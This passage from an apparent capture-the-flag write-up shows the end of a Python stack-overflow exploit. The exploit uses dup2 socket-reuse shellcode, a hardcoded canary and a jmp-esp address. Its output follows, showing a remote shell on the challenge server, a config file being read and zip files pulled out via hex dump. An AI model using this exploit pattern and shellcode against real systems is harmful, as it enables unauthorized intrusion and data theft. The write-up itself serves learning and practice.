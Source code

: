 socketReuse = "\x31\xc9\x31\xdb\x8b\x9c\x24\x40\xff\xff\xff\x6a\x3f\x58\xcd\x80\x41\x80\xf9\x03\x75\xf5"

payload = ""
payload += "\x90" * 104                     #smash stack
payload += pack("<L", 0xe4ffffe4)           #canary
payload += "A"*4                            #arbitrary EBP clobber
payload += pack("<L", 0x0804936b)           #jump esp WORKS
payload += socketReuse                      #dup2
payload += binsh                            #binsh
payload += "\x90"*37                        #pad to 200 bytes
r.send(payload)

r.interactive()
{% endhighlight %}

{% highlight bash %}
sgnet ~ ./exploit.py 
[+] Opening connection to 54.233.105.81 on port 4242: Done
[*] Switching to interactive mode

\x00$ whoami
nobody

$ cat /gnome/www/files/gnome.conf
Gnome Serial Number: 4CKL3R43V4
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
Allow new subordinates?: YES
Camera monitoring?: YES
Audio monitoring?: YES
Camera update rate: 60min
Gnome mode: SuperGnome
Gnome name: SG-05
Allow file uploads?: YES
Allowed file formats: .png
Allowed file size: 512kb
Files directory: /gnome/www/files/
{% endhighlight %}

Serial: 4CKL3R43V4. 

This serial will be unknown to some but it reads "Ackler 4 eva". Ackler was a professor at Southern Oregon University and was the professor to a member of the Counter Hack team (will not mention whom as I do not know if they want to remain anonymous). This makes [Lynn Ackler](http://www.sou.edu/cs/lynnackler.html)! 

Confession: I also attended SOU and got this inside joke. No I did not have outside help from anyone at Counter Hack. I also agree, Ackler 4 eva! (He is a great professor and an inspiration to many.) 

We also want factory_cam_5.zip and 20151215161015.zip. 

I performed the following to obtain factory_cam_5.zip and 20151215161015.zip from the system 

{% highlight bash %}
gnet ~ ./exploit.py 
[+] Opening connection to 54.233.105.81 on port 4242: Done
[*] Switching to interactive mode

\x00$xxd -p /gnome/www/files/factory_cam_5.zip -p 
COPY HEX STRING

gnet ~ echo "HEX STRING" | xxd -r -p > factory_cam_5.zip
{% endhighlight %}
